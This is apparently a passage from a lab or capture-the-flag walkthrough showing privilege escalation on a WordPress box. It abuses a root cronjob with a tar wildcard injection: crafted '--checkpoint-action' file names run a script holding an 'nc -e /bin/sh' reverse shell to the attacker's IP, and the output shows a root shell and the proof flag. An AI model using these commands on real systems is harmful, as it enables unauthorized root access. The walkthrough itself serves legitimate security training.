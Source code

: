 Then use user alice to PE, right now we know there is a cronjob will automatic running every 3 mins, so we can use `tar` to PE.

```bash
$ echo '#!/bin/bash' > backup.sh

$ $ echo 'nc -e /bin/sh 192.168.45.169 443' >> backup.sh
$ cat backup.sh 
#!/bin/bash
nc -e /bin/sh 192.168.45.169 443
$ touch ./"--checkpoint=1"
$ touch ./"--checkpoint-action=exec=bash backup.sh"
$ ls
--checkpoint-action=exec=bash backup.sh
--checkpoint=1
backup.sh
index.php
license.txt
readme.html
wp-activate.php
wp-admin
wp-blog-header.php
wp-comments-post.php
wp-config-sample.php
wp-config.php
wp-content
wp-cron.php
wp-includes
wp-links-opml.php
wp-load.php
wp-login.php
wp-mail.php
wp-settings.php
wp-signup.php
wp-trackback.php
xmlrpc.php

```

Then get root shell.

```bash
┌──(aaron㉿aaron)-[~/Desktop/script]
└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.45.169] from (UNKNOWN) [192.168.184.166] 35074
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/proof.txt
b46523b0963aae9409ce8bd60f4e7b68

```
